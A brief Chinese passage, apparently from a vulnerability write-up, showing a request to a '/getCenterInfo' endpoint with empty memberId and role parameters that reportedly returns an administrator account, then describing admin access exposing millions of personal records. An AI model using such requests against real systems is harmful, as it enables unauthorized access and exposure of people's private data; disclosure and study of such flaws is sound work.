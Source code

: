 ```php
/getCenterInfo?memberId=&roleTypeId=1&roleId=1
```

直接返回管理员账号

![image.png](assets/1699929399-95af396d1daa87c33cbbdd867b8af401.png)

以管理员身份登录，即可看到千万级别的敏感信息，以“黄”模糊搜索为例，发现 139211 条记录
